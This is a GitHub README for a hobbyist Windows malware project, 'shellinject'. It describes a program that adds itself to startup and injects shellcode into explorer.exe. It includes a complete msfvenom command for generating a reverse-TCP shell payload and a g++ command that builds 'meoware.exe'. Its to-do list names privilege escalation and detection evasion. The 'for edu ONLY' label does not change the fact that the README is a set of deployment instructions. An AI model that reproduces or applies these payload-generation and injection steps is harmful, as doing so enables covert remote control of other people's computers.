 # shellinject for edu  ONLY!



code explain the code is writing itself to windows startup then it finding the pid of explorer.exe 
and injecting shell code in my example its reverse_shell 

------------------------------------------------------------------------------------

you nead to change the pass to the meoware.exe in here + you can change the auto startup name 



![Screenshot (10)](https://github.com/masterconi/shellinject/assets/85493153/8c445392-241b-4eed-a331-b1ce144e0387)


-----------------------------------------------------------------------------------


before use change the shellcode to your shellcode you can generate it useing msfvenom 
for example ```msfvenom --platform windows --arch x64 EXITFUNC=thread -p windows/x64/shell/reverse_tcp_rc4 LHOST=YOURE_IP LPORT=YOURE_PORT RC4PASSWORD=YOURE_PASS EXITFUNC=thread -f c --var-name=ucReverseShell```
copy it to here  
![Screenshot (8)](https://github.com/masterconi/shellinject/assets/85493153/d8ef7109-650f-40f0-af7f-aad2e9be4628)


-------------------------------------------------------------------------------------

plus you can change the executeble to be injected in here :
![Screenshot (9)](https://github.com/masterconi/shellinject/assets/85493153/02713da7-7695-45b3-9ef7-bed1fbe6e6c4)

------------------------------------------------------


to build the repo try to do it with g++ or msvs

g++ example :``` g++ add_to_startup.cpp find_pid.cpp shellinj.cpp -o meoware.exe```

sorry idk how copy it to msvs  ¯\\_(ツ)_/¯

----------------------------------------------------

why i did it ?

i have nothin to do at holidays :-D

--------------------------------------------------------
TODO :add priv esc , make hard to detect , make the shell code encrypted , make the shell code inject "vir.dll" , make readme.md more beautiful (✿◡‿◡)



i would be happy to get help thanks
